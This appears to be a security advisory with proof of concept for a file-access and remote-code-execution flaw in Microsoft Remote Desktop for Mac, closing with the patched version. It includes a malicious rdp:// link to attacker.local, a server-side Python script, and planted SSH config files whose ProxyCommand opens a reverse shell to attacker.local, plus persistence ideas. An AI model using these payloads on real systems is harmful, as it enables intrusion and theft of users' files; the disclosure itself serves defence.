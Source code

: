 ## Description
A vulnerability exists in Microsoft Remote Desktop for Mac that allows a remote attacker to execute arbitrary code on the target machine.
User interaction is needed to exploit this issue, but a single click on a link (sent via mail, iMessage, etc.) is sufficient to trigger the vulnerability.

## Details
Microsoft Remote Desktop Client for Mac OS X (ver 8.0.32 and probably prior) allows a malicious Terminal Server to read and write any file in the home directory of the connecting user.
The vulnerability exists to the way the application handles rdp urls. In the rdp url schema it's possible to specify a parameter that will make the user's home directory accessible to the server without any warning or confirmation request. If an attacker can trick a user to open a malicious rdp url, he/she can read and write any file within the victim's home directory.

Since Mac OS X by default opens rdp urls without confirmation (for example via Safari, Mail, Messages), a single click on a link it's sufficient to trigger the vulnerability.

According to Microsoft, no CVE will be assigned due to the release model of this particular client.

A demo video is available at https://youtu.be/6HeSiXYRpNY.

## Proof Of Concept
The following Proof Of Concept creates a directory on the victim's home and puts a file into it.
To reproduce the issue follow the steps below:

- install a windows 2008 server and allow Administrator to connect without password
- login as Administrator
- configure a trusted ssl certificate for rdp connections
- install python2.7 and put the following script in the "Startup" folder
- logout
- send the link below to a victim
RDC link:

```
rdp://full%20address=s:attacker.local&desktopwidth=i:200&desktopheight=i:200&audiomode=i:2&disable%20themes=i:1&screen%20mode%20id=i:1&devicestoredirect:s:*&drivestoredirect=s:*&redirectprinters=i:1&username=s:Administrator
```


### Python script

```
#BOF
import sys
import subprocess
import time
import os

def runcmd(cmd):
        err = None
        out = None
        try:
                process =  subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE);
                out, err = process.communicate()
        except Exception as e:
                print str(e)

        return out


while(True):
        netuse = runcmd("net use")
        if netuse.find("TSCLIENT"):
                runcmd('MKLINK /D C:\\home \\\\tsclient\\home')

                runcmd('md c:\\home\\REMOTE')

                runcmd('copy c:\\REMOTE.txt c:\\home\\REMOTE\\REMOTE.txt')

                runcmd("shutdown /l /f")
                break

        time.sleep(0.4)
#EOF
```

## Remote Code Execution
To execute arbitrary code on the target machine we can use a trick that involves ssh and ssh:// URI handler.
Consider the following example where the RDC exploit pushes the following files on the remote machine:

- `~/.ssh/known_hosts`
```
p ssh-rsa AAAAB3NzaC1yc2EAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
- `~/.ssh/config`
```
Host p
HostName p
ProxyCommand /bin/bash ~/.ssh/command.sh
```
- `~/.ssh/command.sh`
```
for a in {1..31}; do trap "" $a; done
nohup bash -i >& /dev/tcp/attacker.local/1234 0 & 
```

At this point any attempt to launch ssh://p will lead to the execution of ~/.ssh/command.sh without any warning. To automatically execute the triggering URL (ssh://p) we can either:

- send the link to the victim via Mail or iMessage
- poison Safari cache adding some javascript that launches the URL
- poison Safari "Application Saved State" so that the URL il launched at browser execuition
- poison "loginitems" to launch the URL at system startup

It's also possible achieve Remote Code Execution by sending a single link to the victim if he/she uses Safari as the default browser.

## Update
On Jan 17 2017 Apple pushed a security uptate to Safari that prevents this exploit from working.
This fix is mentioned in the Apple Store:
This update fixes an issue where a website could repeately attempt to launch other websites or applications

## Solution
Update Microsoft RDC to the latest version. The version 8.0.37 fixes this issue.